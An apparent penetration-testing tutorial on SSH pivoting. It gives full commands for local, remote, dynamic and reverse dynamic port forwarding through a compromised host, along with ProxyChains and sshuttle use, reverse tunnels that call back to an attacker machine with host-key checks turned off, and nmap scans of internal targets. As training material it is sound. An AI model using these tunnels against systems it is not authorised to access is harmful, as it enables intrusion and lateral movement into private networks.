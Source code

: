 # SSH Forwarding

## Local Port Forwarding

**Forwarding a port from attackers machine to a port on the compromised machine to access a specific port of a target host in the internal network.**

{% hint style="info" %}
No root access needed on compromised machine.
{% endhint %}

#### run this command on your attacking machine:

```
ssh -N -L localhost:localport:targethost:targetport [username@middlehost]
```

* localhost : attackers machine local ip address, usually use 0.0.0.0 for all interfaces.
* local port : port on attackers machine, will be used for connection later
* target host / port : ip and port of the target machine inside the internal network that we want to access
* middlehost : the compromised machine that is going to be used as a pivot  point.

#### example for smb port 445:

```
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

test the connection:

```
nmap  127.0.0.1 -p 445
```

## Remote Port Forwarding

#### The reverse of local port forwarding. a port is opened on the compromised remote machine and the traffic sent to that port is forwarded to attackers local port (ssh client).

{% hint style="danger" %}
**SSH port forwards can be run as non-root users as long as we only bind unused non-privileged local ports (above 1024).**

SSH configurations on the attacker machine must allow remote connection to the given user and you have to enter the user password so **don't use the root account on your machine if you don't trust the middle host.**

**I will explain how to secure remote port forwarding connections in a bit.**
{% endhint %}

#### Run this command on the middle host (compromised target).

```
ssh -N -R attackerhost:attackerport:middlehost:middleport [username@attackerhost]
```

{% hint style="info" %}
Port numbers don't have to be the same here.&#x20;
{% endhint %}

example for MySQL service port 3306:

```
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

test from attacker machine:

```
nmap -sV 127.0.0.1 -p 2221
```

### Secure Remote Port Forwarding

In situations when you dont trust the middle host (compromised pivot machine) its a huge risk to your security if you use the root account or enter the password in the ssh connection. also if you are running the command in a non-interactive shell you will run into a hurdle .

#### to avoid entering our password and having problems wtih non-interactive shells we can use a few ssh command options.

#### first create a pair of ssh keys to use instead of plain-text password:

```
# on compromised middle host enter:

mkdir keys
cd keys
ssh-keygen
```

#### now the new public key needs to be entered in our attacker host’s authorized\_keys file for the attacker user:

```
# on compromised middle host enter:
cat id_rsa.pub

# copy the public key to your kali machine authorized_keys file with the security options
```

#### To avoid potential security issues we can tighten the ssh configuration only permitting access coming from the middle host IP, then we need to ignore any commands that the user supplies with ssh command options. we also need to prevent agent and x11 forwarding with no-agent-forwarding and no-x11-forwarding options. finally we want to prevent the user from being allocated a tty device with the no-tty option

the final **`~/.ssh/authorized_keys`** file on attacker machine will be like this:

![](<../../.gitbook/assets/image (265).png>)

#### This entry allows the owner of the private key (middle host) to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

then we have to add some more ssh options:

**-f :** go to background

**-N :** not running commands

**UserKnownHostsFile=/dev/null :** prevent ssh from attempting to save the host key by sending the output to /dev/null

**StrictHostKeyChecking=no** : don't prompt us to accept the host key

#### the final ssh command:

```
ssh -f -N -R attackerhost:attackerport:middlehost:middleport -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i keys/id_rsa user@attackerhost
```

## Dynamic Forwarding

#### Allows us to set a local listening port and have it tunnel incoming traffic to any remote destination through the use of a proxy. this way we can use all of the ports from the pivot machine.

{% hint style="warning" %}
For this technique to work, we need proxychains or other proxy tools.
{% endhint %}

the syntax is like this:

```
ssh -N -D <attackerhost>:<attackerport> <username>@<middle host>
```

#### With the above syntax in mind, we can create a local SOCKS4 application proxy ( -N -D ) on our attacker machine on TCP port 8080 ( 127.0.0.1:8080 ), which will tunnel all incoming traffic to any host in the target network, through the compromised pivot machine, which we log into.

example:

```
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Now we must somehow direct our reconnaissance and attack tools to use this proxy. We can run any network application through HTTP, SOCKS4, and SOCKS5 proxies with the help of ProxyChains.

#### we simply edit the main configuration file ` /etc/proxychains.conf` and add our SOCKS4 proxy to it:

![](<../../.gitbook/assets/image (264).png>)

{% hint style="warning" %}
Make sure that there are no ther proxy IPs in proxychains config file and the specified port is the same as the port in the SSH command.
{% endhint %}

{% hint style="info" %}
By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user’s $(HOME)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs. we can use the -f options with proxychains to specify the path to the configuration file we want to use.
{% endhint %}

#### To run our tools through our SOCKS4 proxy, we prepend each command with proxychains

```
proxychains nmap -sT -Pn -n 192.168.1.110  # must use -sT option
```

{% hint style="warning" %}
**In a dynamic port forwarding we have to use -sT option with nmap to run a full TCP connect scan. other scan methods dont work since we are using a proxy.**
{% endhint %}

## Reverse Dynamic Forwarding

#### as of OpenSSH version 7.6 (Released late 2017) SSH clients may generate dynamic reverse tunnels accessible to the server they connect to. What’s really cool is that you don’t need to update your server to version 7.6 before this trick will work. As long as the client supports it, the client enforces it when it completes the connection.

run this command on the compromised remote system (this looks like the remote port forwarding but by not specifying a host after the port the ssh client will create a socks proxy on attackers system):

```
ssh -f -N -R [attackers port] -o "UserKnownHostsFile=/dev/null" -o "StricktHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa   user@[attackers IP]
```

you can check if the port is open on attackers system:

```
netstat -tupln
# look for sshd with local address of 127.0.0.1:[attackers port]
```

​​now edit proxychains configs in /etc/proxychains.conf and add the port:

```
socks4 127.0.0.1 [attackers port]
```

now a stable tunnel is established and we can use proxychains for enumeration and connection:

```
proxychains nmap -sT -Pn [target local IP]
```

{% hint style="warning" %}
SOCKS proxy needs full TCP connection, we cant use other scanning techniques, ICMP can not get through either. use -Pn option.
{% endhint %}

## SSHuttle

```
# Transparent proxy over SSH

# Forwarding traffic through the pivot
# It will then auto create necessary iptables rules
sshuttle -r user@pivoting_machine x.x.x.x/24

# You can also let sshuttle detect networks based on the target
# -x == exclude some network to not transmit over the tunnel
sshuttle -vNr user@pivoting_machine -x x.x.x.x.x/24
```

